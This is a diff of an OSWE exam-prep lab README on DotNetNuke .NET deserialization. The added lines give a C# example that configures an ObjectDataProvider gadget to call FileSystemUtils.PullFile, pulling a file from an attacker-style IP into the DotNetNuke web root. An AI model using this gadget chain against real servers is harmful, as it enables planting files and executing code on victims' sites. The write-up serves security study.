

Before and after one commit to solimanalmansor/OSWE-Prep, a Markdown page: OSWE-Labs/DotNetNuke/README.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/OSWE-Labs/DotNetNuke/README.md
+++ b/OSWE-Labs/DotNetNuke/README.md
@@ -142,4 +142,30 @@ Muñoz and Mirosh revealed four .NET deserialization gadgets useful for exploita
 
 Its power lies in allowing attackers to set the `MethodName` property to invoke any method on the wrapped object, while `MethodParameters` lets them pass arguments to that method. Importantly, since `MethodName` and `MethodParameters` are properties (not methods), `ObjectDataProvider` works within the serialization constraints of `XmlSerializer`. This makes it an ideal payload candidate for triggering arbitrary method calls during deserialization.
 
+- Example Use of the `ObjectDataProvider` Instance:
+  ```c#
+  using System;
+  using System.IO;
+  using System.Xml.Serialization;
+  using DotNetNuke.Common.Utilities;
+  using System.Windows.Data;
+
+  namespace ODPSerializer
+  {
+      class Program
+      {
+          static void Main(string[] args)
+          {
+              ObjectDataProvider myODP = new ObjectDataProvider();
+              myODP.ObjectInstance = new FileSystemUtils();
+              myODP.MethodName = "PullFile";
+              myODP.MethodParameters.Add("http://192.168.119.120/myODPTest.txt");
+              myODP.MethodParameters.Add("C:/inetpub/wwwroot/dotnetnuke/PullFileTest.txt");
+              Console.WriteLine("Done!");
+          }
+      }
+  }
+
+  ```
+
 **ObjectDataProvider Class Documentation:** https://learn.microsoft.com/en-us/dotnet/api/system.windows.data.objectdataprovider?view=windowsdesktop-9.0
````
